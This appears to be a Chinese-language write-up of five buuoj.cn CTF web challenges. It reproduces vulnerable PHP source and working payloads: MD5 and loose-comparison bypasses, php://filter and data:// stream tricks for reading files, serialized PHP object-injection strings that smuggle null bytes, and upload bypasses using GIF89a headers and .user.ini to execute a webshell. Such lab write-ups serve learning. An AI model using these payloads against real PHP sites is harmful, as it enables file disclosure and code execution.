

buuoj.cn

0/108-0/13

## [MRCTF2020]Ez_bypass

```
I put something in F12 for you include 'flag.php'; $flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}'; 
if(isset($_GET['gg'])&&isset($_GET['id'])) 
{ 
    $id=$_GET['id']; $gg=$_GET['gg']; 
    if (md5($id) === md5($gg) && $id !== $gg) **md5绕过**
    { 
        echo 'You got the first step'; 
        if(isset($_POST['passwd'])) 
        { 
            $passwd=$_POST['passwd']; 
            if (!is_numeric($passwd)) 
            { 
                if($passwd==1234567) **numeric-bypass**
                { 
                    echo 'Good Job!'; 
                    highlight_file('flag.php'); 
                    die('By Retr_0'); 
                }   
                else 
                { 
                    echo "can you think twice??"; 
                } 
            } 
            else
            { 
                echo 'You can not get it !'; 
            } 
        } 
        else
        { 
            die('only one way to get the flag'); 
        } 
    } 
    else 
    { 
        echo "You are not a real hacker!"; 
    } 
} 
else
{ 
    die('Please input first'); 
} 
}Please input first
```

一共两个绕过，

1. md5

    强比较，用数组绕过即可

2. 数字比较

    弱比较，直接用字符串绕过即可

payload:

GET: ?gg[]=1&id[]=2
POST: passwd=1234567a

## [ZJCTF 2019]NiZhuanSiWei

```php
 <?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```

- file_get_contents() 函数特性

file_get_contents() 不仅可以读取本地文件，还支持多种流包装器协议：

http://、https://
ftp://
data://
php://
等等

- data:// 协议允许在 URL 中直接嵌入数据，格式：data://[mediatype][;base64],data
- php://input 允许读取原始的 POST 数据


- include()主要作用

包含文件：将指定文件的内容插入到当前脚本中
执行代码：如果包含的是 PHP 文件，会执行其中的 PHP 代码
变量共享：被包含文件中的变量在当前作用域中可用

结合data://和php://协议，或许可以执行指定php代码。

试了一下不行，可能禁用了。

不过其实还可以用php://协议读取指定文件信息并用base64过滤器来显示：

```
php://filter/read=convert.base64-encode/resource=filename
```

这里提示useless.php，那就用useless.php

Payload:

?text=data://text/plain,welcome to the zjctf
&file=php://filter/read=convert.base64-encode/resource=useless.php

得到：

PD9waHAgIAoKY2xhc3MgRmxhZ3sgIC8vZmxhZy5waHAgIAogICAgcHVibGljICRmaWxlOyAgCiAgICBwdWJsaWMgZnVuY3Rpb24gX190b3N0cmluZygpeyAgCiAgICAgICAgaWYoaXNzZXQoJHRoaXMtPmZpbGUpKXsgIAogICAgICAgICAgICBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCR0aGlzLT5maWxlKTsgCiAgICAgICAgICAgIGVjaG8gIjxicj4iOwogICAgICAgIHJldHVybiAoIlUgUiBTTyBDTE9TRSAhLy8vQ09NRSBPTiBQTFoiKTsKICAgICAgICB9ICAKICAgIH0gIAp9ICAKPz4gIAo=

用base64解码器得到useless.php源码：

echo '' | base64 -D


```php
<?php  
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>
```

利用__tostring魔术方法的特性，再加上我们有一个echo unserialized(password)，我们要将password构造成一个Flag类，然后让$file=flag.php，然后序列化：

```php
<?php
    class Flag{
        public $file = 'flag.php';
    }

    $a = new Flag();
    echo urlencode(serialize($a)); 
?>
```

O%3A4%3A%22Flag%22%3A1%3A%7Bs%3A4%3A%22file%22%3Bs%3A8%3A%22flag.php%22%3B%7D%

这里做不做url编码都可以，没影响，因为类变量既没有private也没有protected

payload:

?text=data://text/plain,welcome to the zjctf
&file=useless.php
&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}%

记得把useless.php给include进来因为Flag类是在这里定义的。

再去看源码，flag已然藏身其中。

## [网鼎杯 2020 青龙组]AreUSerialz



```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```

乍一看很怪异：

__construct()里又把值初始化了一遍，那该怎么办呢？

但是一方面，函数内的参数没有加this->，所以里面的这些变量都是局部变量，其实是不会修改到我们的类变量的！

**实际上**，经过多方求证，在自带参数的对象序列被反序列化时，`__construct()`方法不会被自动执行！当然`__wakeup()`方法还是会自动执行的。所以我们想要调用目标的process()就得着眼于另一个魔术方法`__destruct()`，在最后会调用一次process()

目标构造是op="2"，但是这样的话会在__destruct()里被覆写掉；不过因为是强比较，而在process()里面是弱比较，所以直接用op=2就可以。

filename自然是载入一个php伪协议来读取源码：

filename=php://filter/read=convert.base64-encode/resource=flag.php

content直接放空就行

利用php脚本获取序列化的结果，GET传入之后返回Bad Hacker...

----

学习了一下之后知道了protected和private的变量经过序列化之后的特点：

- public: 无特殊修饰
- protected: 在变量名前加上%00*%00
- private: 在变量名前加上%00类名%00

这里的%00是url编码，渲染出来是空字符，直接echo显示成空字符（不显示），但是用url编码输出可以看出来。不过这样就过不了输入处对$str的过滤（限制为可见字符）

这又涉及到黑科技：

**当将序列化对象中的s:替换成S:时，会对序列采用16进制转义，比如`\00`就会被转义成%00，作为空字符被处理！不过这个转义会在反序列化的时候才生效，因此可以完美绕过对可见字符的过滤！**

那么我们最后构造的payload如下：(生成脚本见php2.php)

O:11:"FileHandler":3:{S:5:"\00*\00op";i:2;S:11:"\00*\00filename";S:57:"php://filter/read=convert.base64-encode/resource=flag.php";S:10:"\00*\00content";N;}%

得到的base64编码：

PD9waHAgJGZsYWc9J2ZsYWd7NGIzZDVlMmYtYjExNy00NDMxLWIwYTEtMDE1MzdhZGJjMjA1fSc7Cg==

解码得到flag：

<?php $flag='flag{4b3d5e2f-b117-4431-b0a1-01537adbc205}';

## [GXYCTF2019]BabyUpload

题如其名，非常经典的文件上传题目

在请求包中依次修改：文件后缀名，文件类型和内容，并上传.htaccess进行特殊解析即可。

禁用部分函数，用scandir+file_get_contents扫到flag

## [SUCTF 2019]CheckIn

另一种典型场景下的file-upload！

这次的文件过滤依旧包含了扩展名检测，类型名检测，以及对php特征<?的检测（用phtml脚本写法绕过），

但与之前不同的是这一次还使用exif_imagetype()来检测文件头是否符合要求，

这一点还是用魔法gif文件头：

GIF89a

来绕过，直接加在内容前一行就行。

我们依旧可以利用先前的方法上传图片马，但是值得注意的是，以往上传.htaccess的方法行不通了，因为文件头会阻碍.htaccess的解析

这个时候涉及到另一个重要配置文件：`.user.ini`，这个文件可以在插入gif文件头的情况下发挥作用

`.user.ini` 是 PHP 的**用户级配置文件**，允许在特定目录中覆盖部分 `php.ini` 设置。

这里我们用到的变量是auto_prepend_file和auto_append_file

他们的作用就是指定一个文件（1.jpg），那么该文件就会被包含在要执行的php文件中（index.php）。

auto_prepend_file是在文件前插入；auto_append_file在文件最后插入（当文件调用的有exit()时该设置无效）

那么upload一个.user.ini：

```
GIF89a
auto_prepend_file=b.jpg
```

然后在正常的upload我们的图片马b.jpg，正好目录下给我们提供了一个index.php（其实这也是一个提示），那么我们访问index.php，就会顺带着也执行我们b.jpg中的php代码，剩下的就很简单了。

关键是学一个绕过文件原本解析规则的方法！

睡觉！

5/104-1/13


